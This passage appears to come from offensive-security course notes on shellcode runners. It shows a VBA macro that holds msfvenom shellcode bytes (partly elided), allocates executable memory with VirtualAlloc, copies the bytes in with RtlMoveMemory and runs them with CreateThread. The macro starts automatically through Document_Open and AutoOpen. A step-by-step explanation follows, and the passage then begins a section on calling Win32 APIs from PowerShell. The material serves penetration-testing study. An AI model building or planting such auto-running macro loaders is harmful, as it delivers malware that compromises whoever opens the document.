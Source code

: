         buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82,
        12, 139, 82, 20, 139, 114, 40,.......)
        addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

        For counter = LBound(buf) To UBound(buf)
            data = buf(counter)
            res = RtlMoveMemory(addr + counter, data, 1)
        Next counter

        res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function

    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub

&nbsp;

Explanation:

1. The first three lines are the function declarations of the _VirtualAlloc_, _RtlMoveMemory_ and _CreateThread_
2. In the MyMacro() Function , the shellcode generated by msfvenom is stored in the buf variable.
3. Memory Allocation is then done using _VirtualAlloc_, the UBound(buf) is used to get the size of the buffer. &H3000 is to specify MEM_RESERVE and MEM_COMMIT and &H40 is to specify read, write and execute.
4. We then copy the buffer to the allocated memory using the RtlMoveMemory. A for loop is used to copy byte by byte of the shellcode.
5. A thread is created and executed using the CreateThread function.
6. The Macro is executed on open using the Document_Open() and AutoOpen() functions.

&nbsp;

# Shellcode Runner using Powershell

## Calling Win32 APIs from Powershell

- Powershell cannot natively interact with the Win32 API, but using the .NET framework we can use C# in the powershell session.
- In C#, we can declare and import the Win32 API using the DllImportAttribute class.
- As done in VBA, here also we have to convert C data types to C# data types.
- This can easily be done by Microsoft Platform Invocation Services, P/Invoke

> C# statements for importing Win32 Libraries using the P/Invoke can be found here : https://www.pinvoke.net

Example :

For the MessageBox function from the User32.dll ,we can use the above website to fetch the import statement.
